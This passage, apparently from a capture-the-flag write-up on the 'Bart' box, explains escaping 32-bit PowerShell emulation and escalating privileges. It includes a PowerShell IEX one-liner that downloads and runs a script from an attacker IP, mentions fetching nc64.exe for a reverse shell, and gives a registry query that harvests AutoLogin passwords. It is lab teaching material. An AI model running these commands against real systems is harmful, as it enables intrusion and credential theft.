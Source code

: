
## Spawning a 64 bits process

A few common operations to perform once a shell is spawned is to check the kind of environment we're running under, the following PS instructions can tell us whether we are in a 64 bits operating system and process:

```powershell
[Environment]::Is64BitProcess
[Environment]::Is64BitOperatingSystem
```

![img](/images/writeup-bart/24.png)

It appears that Bart is a 64 bits box but our process is running under the 32 bits emulation, and this will screw up our results a lot, in fact, Windows' 32 bits emulation isolates processes, libraries, and registry keys from the rest of the system, so a lot of data would be invisible to our eyes if we remained in this 32 bits process. To get out of the emulation we have two possibilities:

- Run PowerShell from the sysnative folder by specifying its path
- Download nc64.exe on the box and run it to get a new 64 bits shell

The first method works by forcing the execution of the 64 bits version of PowerShell from the sysnative virtual folder (it's a folder that is made exclusively to circumvent the 32 bits emulation redirecting all calls to windows32 up to syswow64, which is where the 32 bits binaries reside, so it's made for 32 bits processes to access 64 bits programs), by including an absolute path to the PS executable in the command our shell will be spawned in a 64 bits process. The modified command is the following:

```powershell
c:\windows\sysnative\windowspowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29:9090/ps_bart.ps1')"
```

By checking again the trick worked:

![img](/images/writeup-bart/25.png)

And we can now start with our enumeration.

---

## Privilege escalation: gathering AutoLogin credentials

Scripts like PowerUp can be used to automate the process of looking for misconfigured policies and settings or juicy info but it can also be done manually, and one of the operations that brought results back was looking in the registry for credentials of autologins:

```aaa
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

![img](/images/writeup-bart/26.png)

We can become Administrator by spawning a PSSession with the newly found credentials:

